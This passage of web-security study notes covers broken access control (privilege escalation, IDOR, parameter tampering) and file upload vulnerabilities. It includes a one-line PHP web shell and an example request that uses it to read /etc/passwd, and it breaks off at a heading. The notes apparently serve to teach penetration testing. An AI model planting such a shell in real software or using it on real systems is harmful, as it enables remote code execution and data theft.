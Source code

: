 Improper enforcement of user roles and permissions.

### Theory Recap

**Types**:

- Vertical: normal → admin
- Horizontal: user A accesses user B’s data    
- Insecure direct object references (IDOR)

**Mitigation**:

- Server-side checks
- Don’t trust client input for access level
- Use access control middleware consistently

### Examples

- Change `user_id=123` to another
- Modify role in JSON body: `"role":"admin"`
- Predictable admin panel: `/admin` or `/superuser`

### Tools

- **Burp Repeater/Intruder**
- Use **session cookies** of lower user to test privilege boundaries

## File Upload Vulnerabilities

Allows attackers to upload dangerous files, such as web shells, due to poor validation.

### Theory Recap

**Checkpoints to bypass**:

- Content-Type (MIME)
- Extension filters
- File name/path validation

**Impacts**:

- RCE
- DoS (large file)
- overwrite existing files

### Shells from Notes

- Basic RCE Shell:

```php
<?php system($_GET['cmd']); ?>
```

Access: `shell.php?cmd=cat /etc/passwd`

- File traversal shell:
